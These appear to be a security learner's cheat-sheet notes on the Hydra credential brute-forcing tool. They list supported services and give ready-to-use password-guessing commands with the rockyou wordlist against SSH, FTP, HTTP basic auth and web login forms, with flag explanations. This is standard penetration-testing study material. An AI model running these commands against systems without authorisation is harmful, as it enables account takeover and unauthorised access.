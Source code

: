 # Hydra :	Credentials Bruteforcing tool

## Bruteforceable services :

Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.


## SSH Example : 
```bash
hydra -l <username> -P /home/neo/Pentest/rockyou.txt -t 4 <IP> ssh
```
**Flags**
- -l 		single username
- -P 		password list
- -t 		specifies the number of threads

## FTP Example
```bash
hydra -l <user> -P /home/neo/Pentest/rockyou.txt ftp://<targetIP>
```

## HTTP(s) Basic Auth

HTTP basic auth can be enabled in `Apache2` through `/etc/apache2/.htpasswd.conf` file and `htpasswd` bash command

![](images/Pasted%20image%2020240521164854.png)

The request sent when typing credentials
```
GET / HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Authorization: Basic YWRtaW46YWRtaW4= # b64(admin:admin)
Te: trailers
Connection: close
```

**Hydra command** :
- Don't forget to edit the method `http-get` or `https-get`
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost -s 443 https-get
```

## Post Web Form Example 
```bash
hydra -l <username> -P /home/neo/Pentest/rockyou.txt <targetip> http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V -I
```

- -l 		single username
- -P 		password list
- http-post-form 	Indicate the type of form
- /login.php	the login page PATH 
- :username	the form field where username is entered (html input name je crois)
- ^USER^ 		tells hydra to use the username
- password	the form field where password is entered (html input name je crois)
- ^PASS^		tells hydra to use the password list supplied earlier
- Login failed	is the login failure message that the form returns
- F=incorrect 	if the word "incorrect" appears on the page, it's incorrect
- -V 		Verbose of each attempt
